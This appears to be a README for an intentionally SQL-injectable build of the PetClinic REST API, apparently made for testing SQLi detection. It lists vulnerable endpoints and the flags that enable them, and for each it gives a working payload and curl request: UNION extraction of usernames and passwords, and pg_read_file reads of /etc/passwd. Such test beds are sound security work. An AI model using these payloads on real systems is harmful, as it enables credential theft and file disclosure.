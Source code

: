 # Endpoints vulnerable for SQLi

This project has the following endpoints:
```shell
GET: /oops
POST: /owners
GET: /owners
GET: /owners/{ownerId}
PUT: /owners/{ownerId}
DELETE: /owners/{ownerId}
POST: /owners/{ownerId}/pets
GET: /owners/{ownerId}/pets/{petId}
PUT: /owners/{ownerId}/pets/{petId}
POST: /owners/{ownerId}/pets/{petId}/visits
GET: /pettypes
POST: /pettypes
GET: /pettypes/{petTypeId}
PUT: /pettypes/{petTypeId}
DELETE: /pettypes/{petTypeId}
GET: /pets
POST: /pets
GET: /pets/{petId}
PUT: /pets/{petId}
DELETE: /pets/{petId}
GET: /visits
POST: /visits
GET: /visits/{visitId}
PUT: /visits/{visitId}
DELETE: /visits/{visitId}
GET: /specialties
POST: /specialties
GET: /specialties/{specialtyId}
PUT: /specialties/{specialtyId}
DELETE: /specialties/{specialtyId}
GET: /vets
POST: /vets
GET: /vets/{vetId}
PUT: /vets/{vetId}
DELETE: /vets/{vetId}
POST: /users
```

Out of these, some are made vulnerable to SQL injection:
```HTTP
# other table data (UNION)
GET: /vets/{vetId}
# subvert logic
GET: /specialties/{specialtyId} 
# (hidden) inserting data
POST: /vets

# Deeper insert
POST: /owners
PUT /owners/{ownerId}
```

To enable a vulnerability, set `feature.unsafe` to the desired target in `application.properties`.
One can also disable SQLi detection using `feature.sqli.detection=false`.
This can be done by passing command line arguments, e.g.:
```shell
# All vulnerabilities
java -jar petclinic.jar --feature.unsafe=all
# Specific vulnerability
java -jar petclinic.jar --feature.unsafe=vuln4
```

All targets have the same path prefix, i.e.:
`PREFIX=org.springframework.samples.petclinic.repository.jdbc.`

## Endpoints with shallow depth
These vulnerable endpoints don't have deep code execution and all detect
multiple rows as SQLi, so payloads work internally, but don't always
return data in the HTTP response.

### Vulnerability 1: `GET /vets/{vetId}`
This vulnerability allows for UNION attacks, allowing an attacker to retrieve
data from other tables.

- operation: `getVet`
- payload: `0' UNION SELECT NULL,username,password FROM users--`
- target: `$PREFIX + JdbcVetRepositoryImpl:vulnFindById`

```shell
curl -i -s -k -X $'GET' \
  -H $'Host: localhost:9966' \
  $'http://localhost:9966/petclinic/api/vets/0\'%20UNION%20SELECT%20NULL,username,password%20FROM%20users--'
```

### Vulnerability 2: `GET /specialties/{specialtyId}`
This vulnerability allows for subverting logic, allowing an attacker to retrieve
hidden data. 

- operation: `getSpecialty`
- payload: `4'--`
- target: `$PREFIX + JdbcSpecialtyRepositoryImpl:vulnFindById`

```shell
curl -i -s -k -X $'GET' \
  -H $'Host: localhost:9966'
  $'http://localhost:9966/petclinic/api/specialties/4\'--'
```
 
### Vulnerability 3: `POST /vets`
This vulnerability allows for inserting data, allowing an attacker to create
a new user with, e.g., leaked data. 

- operation: `addVet`
- payload: `hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--`
- target: `$PREFIX + JdbcVetRepositoryImpl:vulnSave`

```json
{
  "firstName": "hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--",
  "lastName": "",
  "specialties": [
    {
      "name": "hacker"
    }
  ]
}
```

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json'-H $'Host: localhost:9966' -H $'Content-Length: 168' \
    --data-binary $'{\x0a  \"firstName\": \"hack\', (SELECT LEFT(pg_read_file(\'/etc/passwd\'), 30)) ) RETURNING id--\",\x0a  \"lastName\": \"\",\x0a  \"specialties\": [\x0a    {\x0a      \"name\": \"hacker\"\x0a    }\x0a  ]\x0a}' \
    $'http://localhost:9966/petclinic/api/vets'
```

## Endpoints with deeper execution paths
These vulnerable endpoints deeper code path executions.

[//]: # (all detect multiple rows as SQLi, so payloads work internally, but don't always return data in the HTTP response.)

### Vulnerability 4 & 5: `POST /owners`
This vulnerability is the same as [Vulnerability 3](#vulnerability-3-post-vets), but with a deeper code paths.
This is achieved by splitting `vulnSave` into `vulnStoreNewOwner` and `vulnUpdateExistingOwner`.

`vuln4` is when sending a new owner.
`vuln5` is when sending an existing owner.

- operation: `addOwner`
- payload: `hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--`
- target 4: `$PREFIX + JdbcOwnerRepositoryImpl:vulnStoreNewOwner`
- target 5: `$PREFIX + JdbcOwnerRepositoryImpl:vulnUpdateExistingOwner`

```json
{
  "firstName": "hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)), 'addr', 'city', '42') RETURNING id--",
  "lastName": "",
  "address": "",
  "city": "",
  "telephone": ""
}
```

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json'-H $'Host: localhost:9966' -H $'Content-Length: 168' \
    --data-binary $'{\x0d\x0a  \"firstName\": \"hack\', (SELECT LEFT(pg_read_file(\'/etc/passwd\'), 30)), \'addr\', \'city\', \'42\') RETURNING id--\",\x0d\x0a  \"lastName\": \"\",\x0d\x0a  \"address\": \"\",\x0d\x0a  \"city\": \"\",\x0d\x0a  \"telephone\": \"\"\x0d\x0a}\x0d\x0a' \
    $'http://localhost:9966/petclinic/api/owners'
```

### Vulnerability 6 & 7: `PUT /owners/{ownerId}`
This vulnerability leverages the same injection as [Vulnerability 4 & 5](#vulnerability-4--5-post-owners),
but with deeper code execution paths. I.e., a faulty ownerId will cause shallower execution.

`vuln6` is when sending a new owner.
`vuln7` is when sending an existing owner.

- operation: `updateOwner`
- target 6: `$PREFIX + JdbcOwnerRepositoryImpl:vulnStoreNewOwner`
- target 7: `$PREFIX + JdbcOwnerRepositoryImpl:vulnUpdateExistingOwner`
